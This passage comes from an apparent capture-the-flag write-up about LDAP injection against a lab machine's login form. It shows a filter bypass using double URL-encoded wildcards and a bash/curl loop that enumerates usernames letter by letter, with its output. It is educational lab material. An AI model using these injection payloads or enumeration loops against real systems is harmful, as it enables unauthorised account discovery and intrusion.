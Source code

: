 Now the query will return an object with any given name in the administrators department, *or* any first name starting with “xxx” that is an Elf, *or* any last name in administrators, *or* and last name starting with “xxx” and is an Elf.

The 2nd and 4th items should return nothing, and I’ll be left with all the administrators.

### Leak Username

If I start playing with the form I’ll see that when I put in the wrong user, I get the following message:

![1549885356674](https://0xdfimages.gitlab.io/img/1549885356674.png)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection) has a good LDAP Injection reference, but I’m going to start really simple by just trying to pass in a `*`, which will return all the results if the server does a query like:

```

(uid=[input])

```

When I put in certain characters, including all the ones I need to do LDAP injection, `*`, `(`, `)`, `|`, the page returns the form with no error message. I played with a lot of ways to try to get through the filter, but it turns out that url-encoding worked. `*` encodes to `%2a`, and if I enter just `%2a` into the username field, I get the following:

![1549885692835](https://0xdfimages.gitlab.io/img/1549885692835.png)

This implies my username was found!

If I look at that same request in Burp, I’ll notice something else:

![1549885744657](https://0xdfimages.gitlab.io/img/1549885744657.png)

It looks like the form is url-encoding my input as well, so this actually goes in as double url-encoded. The first encoding takes `*` –> `%2a`, and the second encodes the `%` to take `%2a` –> `%252a`.

Now, I should be able to see what the username starts with using a bash loop and `curl` and a couple `grep` to isolate the part of the response I care about:

```

root@kali# for c in {a..z}; do curl -s http://10.10.10.122/login.php -d "inputUsername=${c}%252a&inputOTP=0000" | grep -A1 '<div class="col-sm-10">' | grep '</div>'; done      
    User a%2a not found    </div>
    User b%2a not found    </div>       
    User c%2a not found    </div>       
    User d%2a not found    </div>       
    User e%2a not found    </div>       
    User f%2a not found    </div>    
    User g%2a not found    </div>       
    User h%2a not found    </div>       
    User i%2a not found    </div>
    User j%2a not found    </div>       
    User k%2a not found    </div>       
    Cannot login    </div>              
    User m%2a not found    </div>       
    User n%2a not found    </div>
    User o%2a not found    </div>
    User p%2a not found    </div>        
    User q%2a not found    </div>        
    User r%2a not found    </div>
    User s%2a not found    </div>
    User t%2a not found    </div>      
    User u%2a not found    </div>
```